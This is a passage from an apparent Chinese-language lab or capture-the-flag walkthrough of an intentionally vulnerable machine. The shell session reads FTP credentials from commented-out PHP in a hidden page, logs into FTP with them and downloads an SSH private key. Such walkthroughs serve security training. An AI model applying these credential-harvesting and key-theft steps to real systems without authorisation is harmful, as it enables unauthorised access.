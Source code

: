 ## 2.4 发现登录页面及凭证

访问 `/pwned.vuln` 目录，发现登录页面及注释中的凭证：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ curl http://192.168.205.237/pwned.vuln/ | sed '/<style>/,/<\/style>/d'
...
<h1> vanakam nanba. I hacked your login page too with advanced hacking method</h1>
...
<?php
//      if (isset($_POST['submit'])) {
//              $un=$_POST['username'];
//              $pw=$_POST['password'];
//
//      if ($un=='ftpuser' && $pw=='B0ss_B!TcH') {
//              echo "welcome"
//              exit();
// }
...
?>
```

**获取凭证：**

- 用户名：`ftpuser`
- 密码：`B0ss_B!TcH`

**知识点：** 开发人员有时会在源代码注释中留下测试凭证或敏感信息，应仔细检查 HTML、JavaScript 源码。

---

# 三、FTP 服务利用

## 3.1 登录 FTP

使用获取的凭证登录 FTP 服务：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ ftp ftpuser@192.168.205.237
...
230 Login successful.
ftp> ls
drwxr-xr-x    2 0        0            4096 Jul 10  2020 share
```

## 3.2 下载敏感文件

进入 `share` 目录，发现 SSH 私钥和提示文本：

```bash
ftp> cd share
ftp> ls
-rw-r--r--    1 0        0            2602 Jul 09  2020 id_rsa
-rw-r--r--    1 0        0              75 Jul 09  2020 note.txt

ftp> mget *
mget id_rsa [anpqy?]? y
...
mget note.txt [anpqy?]? y
...
```
